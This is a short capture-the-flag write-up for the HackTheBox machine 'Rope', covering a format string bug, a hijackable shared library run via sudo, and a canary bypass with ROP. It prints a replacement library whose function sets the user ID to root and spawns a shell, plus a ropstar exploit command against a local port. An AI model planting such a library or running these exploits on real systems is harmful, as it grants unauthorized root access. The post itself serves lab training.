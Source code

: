 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/p8XkVDRtTQg/0.jpg
layout: post
media_subpath: /assets/posts/2020-05-23-rope-hackthebox
tags:
- binary exploitation
- canary bruteforce
- format string
- rop
title: Rope @ HackTheBox
---
```


Rope is a 50-point machine on HackTheBox that involves 3 binary exploits. There is a format string vulnerability in the boxes’s webserver and a replaceable shared library used by a binary we can run with sudo. Finally there is another binary where we have to bypass a stack canary and use ROP.

{% youtube p8XkVDRtTQg %}

## Notes

The [user exploit](https://gist.github.com/xct/d555b6dcce3f4a129ead42fc828cbf3b).

Liblog.so:

```cpp
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void printlog(){
    setuid(0);
    setgid(0);
    system("/bin/sh",NULL,NULL);
}
```

The [root exploit](https://gist.github.com/xct/9d3855671fd7f7dac7f2c182f3abd4aa).

Solving with ropstar:

```
python3 ~/tools/ropstar/ropstar.py -rhost localhost -rport 1337 -remote_offset ./contact
```

---

Thanks [r4j](https://twitter.com/r4j0x00) for creating this fun box!